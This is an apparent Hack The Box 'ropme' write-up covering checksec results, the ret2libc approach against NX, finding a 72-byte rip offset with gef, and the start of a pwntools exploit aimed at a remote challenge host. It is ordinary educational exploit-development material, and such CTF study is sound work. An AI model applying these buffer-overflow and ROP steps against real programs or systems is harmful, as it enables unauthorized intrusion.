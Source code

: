 ```bash
gef➤  checksec
[+] checksec for '/mnt/c/Users/xx/documents/pwn/htb/ropme/ropme'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
MX is obviously enabled according to the name of the challenge. Only NX is enabled.NX or DEP (In Windows) is a protection really important for your binaries. It will "says to the stack to don't execute what there is in". So the stack will "refuse" to execute code on the stack. So we won't be able to inject a shellcode in it. 

#### Ret2libc

NX (No eXecution)is enabled so you won't be able to inject shellcode since the code in the stack won't be executed because of NX. As the name shows to use we have to use a return oriented programming technique (ROP) wich is a ret2libc. With this technique we will be able to get a shell because we will be able to call system with the argument /bin/sh.

##### Offset
Let's calculate the offset first and use gef. First I create a pattern of 100 bytes
```py
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Then run the program and paste the bytes and do an `info frame`.
```py
gef➤  info frame
Stack level 0, frame at 0x7fffffffe488:
 rip = 0x40066c in main; saved rip = 0x616161616161616a
 Arglist at 0x6161616161616169, args:
 Locals at 0x6161616161616169, Previous frame's sp is 0x7fffffffe490
 Saved registers:
  rip at 0x7fffffffe488
```
Then we can do a pattern offset
```py
gef➤  pattern offset 0x616161616161616a
[+] Searching for '0x616161616161616a'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search)
gef➤
```
So we have to send 72 bytes before reaching rip. 

#### Exploit
Puts the requirements. 
```py
from pwn import *

elf = context.binary = ELF('./ropme')	
p = remote('206.189.125.37', 32733)		

libc = ""								# dont't know the libc yet
rop = ROP(elf)							# create a rop object
```
